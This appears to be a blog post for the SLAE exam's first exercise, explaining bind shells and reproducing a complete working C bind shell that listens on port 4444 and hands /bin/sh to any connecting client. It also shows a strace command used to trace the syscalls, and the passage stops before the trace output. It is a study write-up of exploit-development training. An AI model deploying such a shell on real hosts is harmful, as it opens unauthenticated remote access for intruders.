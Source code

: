 ```yaml
---
layout: post
title: SLAE Exercise 1 - Bind Shell
subtitle: Linux x86 Bind Shell
tags: [SLAE]
---
```


**Overview**

The first task of the SLAE exam requires a bind shell to be written. The requirements for this were as follows:
	- Binds to a port.
	- Executes a shell on an incoming connection.
	- The port number should be easily configurable within the shell code. 

**Requirements**

To start, it is best to find out what is needed to create a bind shell in a higher level language, and how each of all of these components work. First of all, what is a bind shell?  A bind shell is a shell that binds to a specific port on the target that listens to incoming connections. When a device connects to this port, a shell will be presented. So what is needed from a bind shell? It needs to:

- Be waiting for an incoming connection - bind to a port. 
- Provide the incoming connection with a shell by utilising execve (syscall 11). 

The following C taken from [here] (https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/), was utilised to determine what was needed to create a bind shell:

~~~
#include <stdio.h> 
#include <sys/types.h>  
#include <sys/socket.h> 
#include <netinet/in.h> 
int host_sockid;    // socket file descriptor 
int client_sockid;  // client file descriptor 
struct sockaddr_in hostaddr;            // server aka listen address
int main() 
{ 
    // Create new TCP socket 
    host_sockid = socket(PF_INET, SOCK_STREAM, 0); 
    // Initialize sockaddr struct to bind socket using it 
    hostaddr.sin_family = AF_INET;                  // server socket type address family = internet protocol address
    hostaddr.sin_port = htons(4444);                // server port, converted to network byte order
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);   // listen to any address, converted to network byte order
    // Bind socket to IP/Port in sockaddr struct 
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 
    // Listen for incoming connections 
    listen(host_sockid, 2); 
    // Accept incoming connection 
    client_sockid = accept(host_sockid, NULL, NULL); 
    // Duplicate file descriptors for STDIN, STDOUT and STDERR 
    dup2(client_sockid, 0); 
    dup2(client_sockid, 1); 
    dup2(client_sockid, 2); 
    // Execute /bin/sh 
    execve("/bin/sh", NULL, NULL); 
    close(host_sockid); 
    return 0; 
}
~~~

Using Strace along with the complied C bind shell, it can be seen exactly what Syscalls are required to write a bind shell. The command to run the program with strace was as follows:
~~~
	Sudo strace ./bind
~~~
The open port was connected to so that the entirety of the program running could be observed with strace. The following was observed:

